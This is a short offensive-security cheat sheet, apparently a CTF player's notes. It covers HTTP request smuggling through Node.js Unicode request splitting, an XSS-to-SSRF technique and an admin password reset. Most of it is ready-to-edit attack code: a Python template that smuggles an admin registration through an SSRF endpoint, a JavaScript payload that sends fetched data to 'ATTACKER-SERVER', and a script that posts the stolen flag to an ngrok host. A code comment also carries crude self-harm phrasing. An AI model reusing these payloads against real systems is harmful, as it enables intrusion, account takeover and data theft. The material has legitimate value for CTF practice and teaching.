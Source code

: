 # HTTP request smuggling
## Node 6.x and 8.x
[Node.js http module](https://translate.google.com/website?sl=auto&tl=en&hl=ar&u=https://github.com/nodejs/node/issues/13296) is vulnerable to this attack and can be abused to trigger an SSRF attack.
- Vulnerable code
```js
const http = require('http') const server = http.createServer((req, res) => { console.log(req.url); res.end(); }); server.listen(8000, function() { http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private', function() { }); });
```
- Python template for abusing
```python
#!/usr/bin/python3
import requests

url = "http://134.209.23.209:31246/api/weather" # Change
proxy = {"http":"http://127.0.0.1:8080"}

"""Smuggled request options"""
Method = "post".upper() # Change
endpoint_to_smuggle = "/register" # Change
host_to_smuggle = "127.0.0.1" # Change
post_data_to_smuggle = f"""username=admin&password=admin""" # Change
post_data_to_smuggle = post_data_to_smuggle.replace(" ", "\u0120").replace("'", "%27").replace('"', "%22")
content_length = len(post_data_to_smuggle)

if Method == "POST":
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) + '\u010D\u010A\u010D\u010A' + post_data_to_smuggle + '\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'
else:
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120/' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) +'\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'

"""Sending payload"""
Post_data = json={'endpoint': '127.0.0.1/'+ smuggle, 'city': 'chengdu', 'country': 'CN'} # Change (must be json to avoid unicode shit or send it by hand with burp then kill yourself.)
req = requests.post(url,data=Post_data , proxies=proxy)
print("[@] Status Code: ", req.status_code)
print("[@] Response Body ", req.text)
```
> **References:**
> 1. https://www-rfk-id-au.translate.goog/blog/entry/security-bugs-ssrf-via-request-splitting
> 2. https://hackerone.com/reports/409943

# SSRF
Leveraging XSS to SSRF
```js
var request1 = new XMLHttpRequest();
request1.open('GET', "<SSRF-URL>", false);
request1.send()
var response1 = request1.responseText;
var request2 = new XMLHttpRequest();
request2.open('GET', 'http://ATTACKER-SERVER/?meow=' + response1, true);
request2.send()
```
> **Another script**: https://github.com/Crypto-Cat/CTF/blob/main/ctf_events/nahamcon_22/web/two_for_one/2fa_exfil.js

# Reset password
Taken from: https://github.com/Crypto-Cat/CTF/blob/main/ctf_events/nahamcon_22/web/two_for_one/reset_pw.js
```js
// Reset admin password
var http = new XMLHttpRequest();
var url = 'http://challenge.nahamcon.com:30666/reset_password';
// To json because it was required by the server...remove when not needed
var data = JSON.stringify({
'password':'admin',
'password2':'admin',
'otp':'661035',
});
http.open('POST', url, true);

// Not actually needed, just for debugging
http.onload = function () {
var flag = btoa(http.responseText);
var exfil = new XMLHttpRequest();
exfil.open("GET","http://b6a5-81-103-153-174.ngrok.io?flag=" + flag);
exfil.send();
};
http.setRequestHeader('Content-type', 'application/json');
http.send(data);
```